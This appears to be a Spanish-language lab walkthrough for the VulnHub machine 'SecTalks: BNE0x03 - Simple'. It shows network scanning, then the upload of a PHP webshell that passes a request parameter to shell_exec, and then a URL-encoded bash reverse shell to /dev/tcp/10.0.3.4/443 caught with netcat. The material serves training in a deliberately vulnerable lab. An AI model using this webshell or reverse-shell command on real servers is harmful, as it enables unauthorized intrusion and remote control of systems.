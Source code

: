 # Obtener Intrusión a Servidor Mediante uso de una Webshell

Maquinas a utilizar **Kali Linux y SecTalks: BNE0x03 - Simple (**[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141))

Seguimos con la subida de archivos malicioso para obtener intrusión remota de la maquina pero vamos a aprender el concepto de una Webshell.

```bash
sudo arp-scan -I eth0 --localne
```

```bash
ping -c 1 10.0.3.13
```

![image.png](./imagenes/image%2060.png)

```bash
nmap -p- -sS -sV -sC -min-rate 5000 -n -vvv -Pn 10.0.3.13
```

![image.png](./imagenes/image%2061.png)

- Introducimos su IP en el navegador web
    
    ![image.png](./imagenes/image%2062.png)
    
- Nos creamos un usuario
    
    ![image.png](./imagenes/image%2063.png)
    
    ![image.png](./imagenes/image%2064.png)
    
    ![image.png](./imagenes/image%2065.png)
    

Ya habíamos visto anterior mente como crear con msfvenom un archivo malicioso el cual subíamos y obteníamos control remoto. Pero que pasa si esto falla , pues vamos a ver una alternativa.

- Desde un terminal creamos un archivo webshell.php con nano.
    
    ```bash
    nano webshell.php
    ```
    
    Y escribimos dentro el siguiente codigo:
    
    ```bash
    <?php
            echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    ?>
    ```
    
    Este código PHP ejecuta un comando de shell que se recibe como parámetro a través de la solicitud HTTP ($_REQUEST['cmd']) y muestra el resultado en formato HTML dentro de una etiqueta .
    
- Subimos el archivo mediante el formulario.
- Acedemos al directorio **uploads** (Ya habíamos visto anterior mente como encontrábamos este directorio. **[Mirar Aquí](./imagenes/Explotacio%CC%81n%20de%20vulnerabilidad%20File%20Upload%201d5b1eeb5dd980499025e7d1a3364135.md)**)
    
    ![image.png](./imagenes/image%2066.png)
    

- Pulsamos sobre el archivo malicioso
    
    La pantalla se queda en blanco y parece que no funciona , pero en realidad si funciona. pero abría que pasarle los comandos a través de la URL algo que no es nada cómodo. Pero vamos a ver coso se hace por URL.
    
- Esta seria la URL que me aparece en mi caso con mi archivo malicioso. `http://10.0.3.13/uploads/avatar_Terra_webshell.php`
- Le añadimos al final de la URL
    
    `?cmd=whoami`
    
    Donde se repetirá siempre `?cmd=` y el resto será el comando que queremos ejecutar. Quedando de esta manera.
    
    `http://10.0.3.13/uploads/avatar_Terra_webshell.php?cmd=whoami`
    
    ![image.png](./imagenes/image%2067.png)
    
- Como hemos dicho antes este no es un método cómodo para ser utilizado. Y lo que estamos obteniendo es ejecución remota de comandos y lo que nosotros queremos  obtener intrusión a la maquina , debemos insertar el comando propio de la revershell pero URLcodeado ya que estamos utilizando el navegador.
- Nos vamos a [Online - Reverse Shell Generator](./imagenes/https://www.revshells.com/) y copiamos el comando típico de revershell.
    
    ![image.png](./imagenes/image%2068.png)
    
- Vamos a ello. Abrimos la **herramienta Burpsuite** y nos vamos a la pestaña **Decoder.**
    
    ![image.png](./imagenes/image%2069.png)
    

- Escribimos en el Burpsuite lo siguiente:
    
    `bash -c “**sh** -i >& /dev/tcp/**10.0.3.4**/**443** 0>&1”`
    
    ![image.png](./imagenes/image%2070.png)
    

- En el menú lateral derecho escogemos en la opción **Encode as... URL.**
    
    ![image.png](./imagenes/image%2071.png)
    
    Ya tenemos el comando URLcodeado.
    
    ![image.png](./imagenes/image%2072.png)
    

- Abrimos un terminal y hacemos un netcat al puerto 443 que es el que hemos puesto en el revershell.
    
    ![image.png](./imagenes/image%2073.png)
    

- Copiamos el comando URLcodeado, nos vamos al navegador y donde ponemos el comando copiamos el comando URLcodeado y ya estaremos dentro de la maquina.
    
    ![image.png](./imagenes/image%2074.png)
    
    ![image.png](./imagenes/image%2075.png)
    

A diferencia de lo que ocurría con una conexión con msfvenom aquí la conexión es mas estable y no se pierde.